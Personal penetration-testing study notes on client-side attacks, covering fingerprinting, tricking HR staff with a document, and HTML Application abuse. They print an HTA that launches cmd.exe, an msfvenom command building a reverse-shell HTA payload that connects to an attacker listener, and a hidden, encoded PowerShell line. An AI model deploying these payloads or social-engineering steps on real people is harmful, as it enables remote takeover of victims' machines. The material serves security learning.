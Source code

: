 ```yaml
---
title: Study Notes - 2021/03/21
date: 2021-03-21 02:01:55
tags: [Penetration Testing, Study Notes]
---
```


# Client-side Attack 

## Passive Client information Gathering  
Googled for various known external corporate IP addresses and found one on a site that hosts collected user agent data from various affiliate sites.

## Active Client information Gathering  
## Social engineering and client-side attacks 
Cheat HR, by sending their a document, and ask what types of os and broseswer they are using 

## Client Fingerprinting  
fingerpringjs  

use ajax to post components array to the server  

sudo chown www-data:www-data fp  

## Leveraging HTML Applications 
If a file is created with the extension of .hta instead of .html, Internet Explorer will automatically nterpret it as a HTML Application and offer the ability to execute it using the mshta.exe program.

work with IE 

Similar to an HTML page, a typical HTML Application includes html, body, and script tags followed by JavaScript or VBScript code. However, since the HTML Application is executed outside the browser we are free to use legacy and dangerous features that are often blocked within the browser  

An additional window will open, add close 

``
<html>
<head>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
self.close();
</script>
</body>
</html>
``

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.148 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```
```
iKqr8BWFyuiK.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcg
```

-nop no profile  
-w hidden do not pop up a window  
-EncodedCommand  -e  

